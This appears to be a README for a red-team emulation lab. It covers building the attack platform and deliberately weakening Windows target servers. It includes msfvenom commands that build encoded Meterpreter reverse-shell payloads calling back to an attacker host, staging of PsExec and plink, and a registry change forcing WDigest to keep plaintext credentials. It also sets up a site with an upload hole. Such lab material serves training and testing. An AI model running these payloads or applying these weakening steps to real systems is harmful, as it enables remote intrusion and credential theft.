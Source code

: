 # Scenario 1 Infrastructure

## I. Emulation Team Infrastructure

### 1. Attack Platform: 

#### [+] Tested and executed on Kali Linux 2023.2

#### [+] Metasploit 6.3.21-dev

#### [+] Stage certain files for download
- Craft session.aspx
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=<ip_attacker> LPORT=4444 -f aspx > ~/modules/session.aspx
```

- Craft session.exe
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=<ip_attacker> LPORT=4445 -f exe > ~/modules/session.exe
```
- Copy these files from `Resources` to `~/modules/`
```
plink.exe
PsExec.exe
sysinfo.ps1
7z.exe
```

- `~/modules/` should now contains these
```
PsExec.exe
sysinfo.ps1
session.aspx
session.exe
```

## II. Target Infrastructure

### 1. AD server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Enable File and Printer Sharing
- Open Powershell as Administrator
```
Set-NetFirewallRule -DisplayGroup “File And Printer Sharing” -Enabled True -Profile Private
```

### 2. IIS server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Forcing WDigest to Store Credentials in Plaintext
- Open Powershell as Administrator
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
#### [+] Join AD domain
#### [+] Domain user with local admin access on this machine
#### [+] A website with upload file vulnerability
